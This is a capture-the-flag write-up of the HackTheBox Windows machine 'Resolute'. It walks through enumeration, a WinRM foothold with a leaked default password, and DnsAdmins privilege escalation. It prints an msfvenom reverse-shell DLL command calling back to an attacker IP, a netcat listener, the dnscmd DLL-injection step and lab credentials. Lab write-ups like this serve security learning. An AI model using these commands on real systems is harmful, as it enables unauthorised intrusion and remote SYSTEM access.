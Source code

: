 # Resolute

![](images/info.PNG)

__Task__: Find [user.txt](#user-flag) and [root.txt](#root-flag)

### Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- enum4linux

__Exploitation__

- Weak password policy

__Priv Esc__

- DNS Admin Privilege Escalation 

***

This is my guide to the HackTheBox Windows machine _Resolute_.

## User Flag

First thing’s first. I run my `nmap` scan. _Resolute_ is running a ton of services, all pointing to a potential Active Directory DC. 

- __sC__: Enable common scripts

- __sV__: version and service on the port 

- __O__: remote OS detection using fingerprinting

```
# Nmap 7.80 scan initiated Sat May 23 14:52:02 2020 as: nmap -sC -sV -O -oA scan169 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.059s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-05-23 20:02:44Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/23%Time=5EC97EF0%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/23%OT=53%CT=1%CU=44091%PV=Y%DS=2%DC=I%G=Y%TM=5EC97F8
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=
OS:A)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M5
OS:4DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h30m33s, deviation: 4h02m31s, median: 10m32s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-23T13:03:15-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-23T20:03:16
|_  start_date: 2020-05-23T18:24:50

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 23 14:54:54 2020 -- 1 IP address (1 host up) scanned in 172.73 seconds
```

After the results come back, I also run a full port scan to see if any additional ports may be open. 

```bash
$ sudo nmap -sC -sV -O -p- -oA full169 10.10.10.169
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The port that I make note of from the full scan is 5985. This tells me that the box is running `WinRM 2.0 (Microsoft Windows Remote Management)`. Once I find some credentials, I may be able to gain a foothold through this service.

Next, I run `enum4linux`, a tool primarily used to enumerate Windows or Samba systems.

```bash
$ enum4linux -U -o 10.10.10.169
```

![](images/enum.png)

It looks like an admin mistakenly left a default password in the description on a user account. Odds are, one of these users may not have changed their default password. 

Using `evil-winrm`, a Windows Remote Management tool for pentesting, I try each username with the password. Eventually, I successfully log in with as melanie, attaining a foothold on _Resolute_.

```bash
$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
```

![](images/foothold.png)

Once in, I find the user flag on melanie’s desktop.

![](images/user-flag.png)

## Root Flag

Next, I need to escalate privileges. I start looking around the file system, seeing if anything stands out. I soon find a PowerShell log within the directory `C:\PSTranscripts\20191203` that may contain something of interest.

```powershell
> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Within this transcript is a password for the user ryan. Additionally, the password may imply that ryan has some level of administrative privileges.

![](images/passwd.png)

Using my newly attained credentials, I log in as Ryan using `evil-winrm`. 

```bash
$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

On ryan’s desktop there is a note that indicates that all changes are reverted within a minute. I’ll keep that in mind as I continue.

![](images/note.png)

Next, I want to see if ryan has any unique privileges. I use `net user` and can see that ryan is in the `Contractors` group. This indicates to me that he may have administrator rights. Because _Resolute_ also has DNS enabled, I can assume that ryan is also a DNS Admin or has write privileges to the DNS server object.

```powershell
> net user ryan /domain
Global Group memberships     *Domain Users         *Contractors
```

[This article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) has a great write-up on how to abuse a DNS Admin account to escalate privileges. For brevity, I will inject a poisoned DLL into the DNS executable, which will create a SYSTEM-level shell when the DNS process is restarted.

Using msfvenom, I will create the malicious DLL payload.

```bash
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.234 LPORT=4444 -f dll > privesc.dll
```

I set up a listener as well, in preparation for the reverse shell.

```bash
$ nc -lvnp 4444
```

Now I need to get my payload onto the machine. I choose to host the payload on my machine using `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
$ sudo python smbserver.py share ./
```

On the _Resolute_ box, I run the command to retrieve my poisoned DLL and inject it into `dns.exe`.

```powershell
> dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.234\share\privesc.dll
```

Finally, I restart DNS. This needs to be done relatively quickly to avoid changes being reverted.

```powershell
> sc.exe stop dns
> sc.exe start dns
```

![](images/dns-restart.png)

My reverse shell connects and I confirm that I have successfully rooted the box!

![](images/root.png)

On the Administrator's desktop I find the final flag.

![](images/root-flag.png)


***

Overall, I really enjoyed this box. Being one of my first Windows machines, I learned a lot about Windows enumeration, and it was beneficial seeing this sort of privilege escalation. I also thought the use of poor password policies and account management was a realistic way to gain unauthorized access. 

### Rankings:

__Real-life Applicable__: 8/10

__Common Vulnerabilities__: 8/10

__Enumeration__: 6/10
